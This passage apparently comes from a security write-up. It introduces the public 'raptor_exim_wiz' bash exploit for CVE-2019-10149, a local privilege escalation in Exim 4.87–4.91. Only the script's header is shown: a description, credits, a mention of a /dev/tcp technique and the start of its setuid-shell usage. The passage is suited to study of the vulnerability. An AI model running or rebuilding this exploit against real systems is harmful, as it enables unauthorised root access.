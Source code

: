 ![the_return_of_the_wizard_cve_2019_10149-6.png](https://media.graphassets.com/JaDjixhnTCi6BPNKgPIr)

It contains a bash script to exploit the Exim LPE vulnerability:

**Exploit script:**

    
    
    #!/bin/bash
    #
    # raptor_exim_wiz - "The Return of the WIZard" LPE exploit
    # Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>
    #
    # A flaw was found in Exim versions 4.87 to 4.91 (inclusive).
    # Improper validation of recipient address in deliver_message()
    # function in /src/deliver.c may lead to remote command execution.
    # (CVE-2019-10149)
    #
    # This is a local privilege escalation exploit for "The Return
    # of the WIZard" vulnerability reported by the Qualys Security
    # Advisory team.
    #
    # Credits:
    # Qualys Security Advisory team (kudos for your amazing research!)
    # Dennis 'dhn' Herrmann (/dev/tcp technique)
    #
    # Usage (setuid method):
    # $ id
    # uid=1000(raptor) gid=1000(raptor) groups=1000(raptor) [...]
    # $ ./raptor_exim_wiz -m setuid
    # Preparing setuid shell helper...